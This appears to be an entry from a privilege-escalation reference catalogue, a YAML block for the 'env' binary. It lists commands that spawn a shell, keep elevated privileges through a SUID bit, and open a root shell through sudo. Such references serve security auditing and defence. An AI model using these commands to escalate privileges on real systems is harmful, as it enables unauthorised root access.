 ```yaml
---
name: env
functions:
  shell:
    - code: env /bin/sh
  suid:
    - code: ./env /bin/sh -p
  sudo:
    - code: sudo env /bin/sh
---
```

